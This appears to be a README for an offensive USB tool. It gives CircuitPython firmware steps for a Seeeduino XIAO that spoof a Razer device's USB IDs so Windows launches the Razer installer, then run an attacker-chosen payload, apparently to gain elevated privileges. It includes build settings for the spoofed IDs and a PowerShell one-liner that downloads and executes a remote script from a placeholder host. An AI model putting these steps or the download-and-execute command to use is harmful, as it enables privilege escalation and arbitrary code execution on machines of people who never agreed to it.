 Designed for https://wiki.seeedstudio.com/Seeeduino-XIAO/, but should work on any board that can run circuitpython and has USB.

Either compile your own, or use `Seeeduino_XIAO_fake_razor_firmware.uf2` if you are using the Seeeduino XIAO.

# Howto

1. Put board into load firmware mode (trigger reset twice for the XIAO)
2. Put the firmware .uf2 file on the USB drive that appears
3. Wait for chip to reboot. It should show up as a Raxor device (and start the installer if it hasnt already run on the PC)
4. Adjust `main.py` to run your own payload, possibly also adjust wait time for installer to launch
5. Put `boot.py`, `main.py` and `adafruit_hid` on the circuitpython drive

To re-trigger the Razor installer if it has already launched once, right click the device in `Control Panel\Hardware and Sound\Devices and Printers` and select `Remove Device` then re-plug the chip.

# Building your own firmware

Clone https://github.com/adafruit/circuitpython and change `ports/<cpu type>/boards/<board>/mpconfigboard.mk` (e.g. `ports/atmel-samd/boards/seeeduino_xiao/mpconfigboard.mk`) so that 

```
USB_VID = 0x1532
USB_PID = 0x023e
```

Optionally also set
```
USB_PRODUCT = "Razer device"
USB_MANUFACTURER = "SYSTEM EOP"
```

then build for that board.

# Nyan

Run `nyan.ps1` to get nyan cat (popping calc.exe is lame).
Use `cmd /c start powershell -noexit -c "iex (New-Object Net.WebClient).DownloadString('http://host/nyan.ps1')"` to start in a new window.